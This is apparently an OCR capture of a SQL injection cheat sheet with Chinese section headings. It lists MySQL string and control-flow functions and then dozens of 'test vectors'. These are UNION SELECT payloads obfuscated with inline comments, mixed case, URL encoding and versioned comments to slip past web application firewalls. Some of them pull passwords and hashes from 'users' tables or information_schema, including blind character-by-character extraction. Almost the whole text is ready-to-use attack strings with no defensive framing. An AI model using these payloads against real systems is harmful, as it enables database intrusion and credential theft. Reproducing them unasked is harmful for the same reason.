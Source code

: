 	#字符串长度
	length()
	bit_length()
	char_length()
	octet_length()
	bit_count()
	#关键字过滤
	Connected keyword filtering
	(0)union(select(table_name),column_name,…
	0/**/union/*!50000select*/table_name`foo`/**/…
	0%a0union%a0select%09group_concat(table_name)….
	0′union all select all`table_name`foo from`information_schema`. `tables`
	#控制流
	case ‘a’ when ‘a’ then 1 [else 0] end
	case when ‘a’='a’ then 1 [else 0] end
	if(‘a’='a’,1,0)
	ifnull(nullif(‘a’,'a’),1)

###测试向量
	%55nion(%53elect 1,2,3)-- -
	+union+distinctROW+select+
	/**//*!12345UNION SELECT*//**/
	/**/UNION/**//*!50000SELECT*//**/
	/*!50000UniON SeLeCt*/
	+#uNiOn+#sEleCt
	+#1q%0AuNiOn all#qa%0A#%0AsEleCt
	/*!u%6eion*/ /*!se%6cect*/
	+un/**/ion+se/**/lect
	uni%0bon+se%0blect
	%2f**%2funion%2f**%2fselect
	union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
	REVERSE(noinu)+REVERSE(tceles)
	/*--*/union/*--*/select/*--*/
	union (/*!/**/ SeleCT */ 1,2,3)
	/*!union*/+/*!select*/
	union+/*!select*/
	/**//*!union*//**//*!select*//**/
	/*!uNIOn*/ /*!SelECt*/
	+union+distinctROW+select+
	-15+(uNioN)+(sElECt)
	-15+(UnI)(oN)+(SeL)(ecT)+
	id=1+UnIOn/**/SeLect 1,2,3—
	id=1+UNIunionON+SELselectECT 1,2,3—
	id=1+/*!UnIOn*/+/*!sElEcT*/ 1,2,3—
	id=1 and (select 1)=(Select 0xAA 1000 more A’s)+UnIoN+SeLeCT 1,2,3—
	id=1+un/**/ion+sel/**/ect+1,2,3--
	id=1+/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3
	id=1+/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
	id=1+/**/union/*&id=*/select/*&id=*/1,2,3--
	id=-1 and (select 1)=(Select 0xAA*1000) /*!UNION*/ /*!SELECT*//**/1,2,3,4,5,6—x
	/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
	/*!union*/+/*!select*/+1,2,3—
	/*!UnIOn*//*!SeLect*/+1,2,3—
	un/**/ion+sel/**/ect+1,2,3—
	/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3—
	ID=66+UnIoN+aLL+SeLeCt+1,2,3,4,5,6,7,(SELECT+concat(0x3a,id,0x3a,password,0x3a)+FROM+information_schema.columns+WH
	ERE+table_schema=0x6334706F645F666573746976616C5F636D73+AND+table_name=0x7573657273),9,10,11,12,13,14,15,16,17,
	18,19,20,21,22,23,24,25,26,27,28,29,30--
	?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
	index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
	?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,
	?id=15+/*!UnIoN*/+/*!aLl*/+/*!SeLeCt*/+1,version(),3,4,5,6,7--